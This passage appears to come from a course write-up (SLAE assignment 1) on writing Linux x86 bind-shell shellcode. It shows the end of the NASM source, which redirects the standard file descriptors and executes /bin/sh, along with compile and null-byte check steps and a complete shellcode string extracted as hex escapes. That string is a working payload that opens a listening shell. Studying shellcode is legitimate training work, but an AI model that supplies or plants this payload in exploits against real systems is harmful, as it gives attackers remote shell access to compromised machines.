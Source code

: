 ```nasm
       xor ecx, ecx
       mov cl, 2            ; 2 for stderr / 1 for stdout / 0 for stdin
       xor eax, eax

dup2:
       mov al, 63           ; __NR_dup2
       int 0x80
       dec ecx
       jns dup2             ; jump short if not signed 

; execve("/bin/sh", NULL, NULL);
; #define __NR_execve 11

       xor eax,eax
       push eax
       push 0x68732f2f      ; hs// - take care to the little endian representation
       push 0x6e69622f      ; nib/
       mov ebx, esp         ; pointer to command string
       mov ecx, eax
       mov edx, eax
       mov al, 11           ; __NR_execve
       int 0x80
```

Let's compile with the [compile.sh](https://github.com/phackt/slae/blob/master/assignment1/compile.sh) script:  
```bash
./compile.sh shell_bind_tcp
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```
  
Let's run shell_bind_tcp and try to connect from another shell:  
![image4]({{ site.url }}/public/images/slae/assignment1/image4.png)  
  
What we have to take care in shellcodes are bad characters. Each compromised application will lead to its own set of bad characters that we will need to avoid in the shellcode part of the exploit.    
Right now let's check that our shellcode do not contain null bytes:  
```bash
objdump -d shell_bind_tcp -M intel | grep 00
```
  
Great, no null bytes. Let's dump our shellcode:  
```bash
objdump -d ./shell_bind_tcp|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x66\x68\x1f\x90\x66\x6a\x02\x89\xe3\x6a\x10\x53\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x52\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xdb\xf7\xe3\x52\x52\x57\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```
  